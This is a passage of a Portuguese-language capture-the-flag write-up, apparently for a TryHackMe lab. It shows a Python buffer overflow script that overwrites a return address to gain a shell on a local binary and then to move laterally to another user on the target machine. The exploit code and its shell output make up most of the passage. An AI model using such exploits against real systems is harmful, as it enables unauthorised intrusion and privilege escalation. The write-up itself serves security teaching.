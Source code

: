 ```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ cat xpl.py 
#!/usr/bin/python

import struct

payload = "A" * 72
payload += struct.pack("<Q", 0x0000000000400657)

print payload
```
Vamos testar localmente nosso script.

```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ (python xpl.py ; cat) | ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
whoami
hastur
id
uid=1000(hastur) gid=1000(hastur) groups=1000(hastur),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),120(bluetooth),122(wireshark),135(scanner),145(kaboxer)

```

E conseguimos o shell local com o script!!

Agora precisamos replicar o script na máquina alvo.

```bash
magna@anonymous-playground:~$ cat xpl.py 
#!/usr/bin/python

import struct

payload = "A" * 72
payload += struct.pack("<Q", 0x0000000000400657)

print payload
```
Ao executar nosso script, conseguimos um movimento lateral para o usuário `spooky`.

<img src="/thm/thm-anonymousplayground-13.png">
